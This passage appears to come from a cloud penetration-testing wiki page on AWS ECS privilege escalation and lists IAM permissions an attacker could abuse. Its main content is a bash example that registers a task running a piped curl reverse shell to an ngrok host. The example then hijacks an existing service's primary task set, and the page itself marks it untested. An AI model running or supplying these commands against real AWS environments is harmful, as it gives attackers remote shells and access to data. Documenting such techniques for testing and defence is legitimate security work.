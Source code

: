 {% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}

### `?ecs:RegisterContainerInstance`

TODO: Is it possible to register an instance from a different AWS account so tasks are run under machines controlled by the attacker??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: Test this
{% endhint %}

An attacker with the permissions `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, and `ecs:DescribeTaskSets` can **create a malicious task set for an existing ECS service and update the primary task set**. This allows the attacker to **execute arbitrary code within the service**.

```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
  "family": "malicious-task",
  "containerDefinitions": [
    {
      "name": "malicious-container",
      "image": "alpine",
      "command": [
        "sh",
        "-c",
        "apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
      ]
    }
  ]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```

**Potential Impact**: Execute arbitrary code in the affected service, potentially impacting its functionality or exfiltrating sensitive data.

## References
